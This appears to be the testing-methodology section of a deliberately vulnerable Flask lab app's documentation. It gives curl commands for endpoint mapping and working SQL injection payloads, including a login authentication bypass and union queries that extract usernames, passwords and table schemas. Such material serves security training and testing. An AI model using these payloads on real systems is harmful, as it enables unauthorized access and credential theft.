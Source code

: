 ## 🧪 Testing Methodology

### Phase 1: Reconnaissance and Application Mapping

#### 1.1 Application Structure Analysis
```bash
# Map all endpoints
curl -X GET http://localhost:5000/
curl -X GET http://localhost:5000/login
curl -X GET http://localhost:5000/shop
curl -X GET http://localhost:5000/tools
curl -X GET http://localhost:5000/upload
curl -X GET http://localhost:5000/admin
```

#### 1.2 Technology Stack Identification
- Backend: Python Flask
- Database: SQLite3
- Session Management: Flask sessions
- Authentication: Custom + JWT

### Phase 2: SQL Injection Testing

#### 2.1 Authentication Bypass
**Target**: `/login` endpoint

```bash
# Basic SQL injection - authentication bypass
curl -X POST http://localhost:5000/login \
  -d "username=admin' OR '1'='1-- &password=anything"

# Union-based SQL injection
curl -X POST http://localhost:5000/login \
  -d "username=admin' UNION SELECT 1,2,3,4,5-- &password=test"

# Error-based SQL injection
curl -X POST http://localhost:5000/login \
  -d "username=admin' AND (SELECT * FROM users)-- &password=test"
```

#### 2.2 Data Extraction via Shop Search
**Target**: `/shop` endpoint

```bash
# Extract user data
curl -G http://localhost:5000/shop \
  --data-urlencode "search=' UNION SELECT username,password,email,role FROM users-- "

# Extract table structure
curl -G http://localhost:5000/shop \
  --data-urlencode "search=' UNION SELECT name,sql,'','','' FROM sqlite_master WHERE type='table'-- "

# Extract all user passwords
curl -G http://localhost:5000/shop \
  --data-urlencode "search=' UNION SELECT username,password,'','','' FROM users-- "
```
